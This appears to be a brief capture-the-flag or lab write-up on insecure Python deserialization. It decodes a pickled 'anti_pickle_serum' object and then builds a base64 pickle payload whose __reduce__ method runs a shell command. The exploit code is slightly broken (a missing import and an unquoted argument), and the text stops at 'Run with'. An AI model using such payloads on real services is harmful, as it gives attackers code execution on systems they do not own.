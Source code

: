 ___

# Insecure deserialization

![[Pasted image 20241029175340.png]]

Base64 decode

```bash
(dp0  
S'serum'  
p1  
ccopy_reg  
_reconstructor  
p2  
(c__main__  
anti_pickle_serum  
p3  
c__builtin__  
object  
p4  
Ntp5  
Rp6  
s.
```

https://docs.python.org/3/library/pickle.html

Reverse
```python
import pickle  
import pickletools  
import base64  
import os  
  
class anti_pickle_serum(object):  
       def __init__(self):  
               pass  
  
exploit_obj = anti_pickle_serum()  
raw_pickle = pickle.dumps({"serum": exploit_obj}, protocol=0)  
  
optimized_pickle = pickletools.optimize(raw_pickle)  
pickletools.dis(optimized_pickle)  
  
payload= base64.b64encode(raw_pickle)  
print(payload)
```

Now add the reduce method
```python
import pickle  
import pickletools  
import base64  
import os  
  
class AntiPickleSerum(object):  
   def __init__(self):  
       pass  
  
   def __reduce__(self):  
       return subprocess.check_output, (ls,) 
  
exploit_obj = AntiPickleSerum()  
raw_pickle = pickle.dumps({"serum": exploit_obj}, protocol=0)  
  
optimized_pickle = pickletools.optimize(raw_pickle)  
pickletools.dis(optimized_pickle)  
  
payload = base64.b64encode(raw_pickle)  
print(payload)
```

Run with 
